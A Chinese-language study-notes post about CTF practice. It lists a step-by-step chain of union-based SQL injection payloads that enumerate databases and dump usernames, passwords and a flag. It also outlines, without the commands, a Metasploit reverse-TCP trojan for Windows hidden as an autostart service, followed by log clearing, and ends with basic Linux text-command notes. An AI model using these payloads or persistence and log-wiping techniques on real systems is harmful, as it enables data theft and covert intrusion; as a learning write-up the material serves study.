



一．

假期时候尝试打了ctf，对于sql三大注入中联合注入的一些语句

1.判断类型  
1))))))-- -  
1))))))#  
1)))))) or 1=1-- -

1.  列数  
    1)))))) order by 1,2-- -
2.  显示位  
    1)))))) union select 1,2-- -
3.  求库名字  
    1)))))) union select database(),2-- -
4.  求表  
    1)))))) union select 1,group\_concat(table\_name) from information\_schema.tables where table\_schema=database()-- -

6.求列

1)))))) union select 1,group\_concat(column-name) from information\_schema.columns where table\_name=”users”-- -

7.求数据

\-1)))))) union select username,password from user-- -

\-1)))))) union select 1,group\_concat(username,password) from users-- -

1.  求所有库

1)))))) union select 1,group\_concat(schema\_name) from information\_schema.schemata-- -

1)))))) union select 1,group\_concat(schema\_name) from information\_schema.schemata-- +

9.求表

1)))))) union select 1,group\_concat(table\_name)from information\_schema.tables where table\_schema=’ctftraining’-- +

10.求列

1)))))) union select 1,group\_concat(column\_name)from information\_schema.columns where table\_schema=’ctftraining’-- -

11.求数据

1)))))) union select 1,group\_concat(flag) from ctftraining.flag-- -

对于sql注入漏洞，它是通过输入端携带控制类型代码，没有经过“筛选”使得此类代码被“夹藏私活“带入到服务器中，进而操控服务器，对于sql漏洞，最常用的工具是sqlmap，在《孤注一掷》中就有使用到sqlmap，它会自动帮你检测漏洞的存在与否

二．

除了打ctf，我还稍微学习到了msf的运用，木马的制作与植入，并且知道将木马伪装成系统服务，设置成开机自启，并且进行服务隐藏后，再进行系统日志的清理

第一段是启动msf

第二段是使用msf自带的监听模块

第三段是针对64为windows的反弹tcp链接

第四段是运行

生成木马

隐藏系统服务，不让对方知道木马被植入系统服务

清除系统日志

三．

我模仿了苏格拉底式提问，将一篇文章丢给了ai，进行学习，其实对于像我这样的小白来说，还是很有用的，我就不全部列出来了，就挑一个列出来：

对于文本处理语句的总结

1.  grep 搜索指令

就在文本中找到包含这个东西的行并打印

\-i 忽略大小写

\-v 反向选择输出不匹配行

\-r 递归搜索目录

\-n 显示行号

1.  wc 统计数量

统计字节，行，单词等等

\-l 统计行

\-w 统计单词数

\-c 统计字节数

1.  sort 排序

把输入的按行排序，默认字典升序

\-n 按数字大小

\-r 逆序

\-u 去重

\-k 指定按第几列排序

1.  head 看文件开头，默认前10行

\-n （数字）看到（数字）这行

经常这是和 | 管道一起使用，ls列出，grep搜索，sort排列，head列出
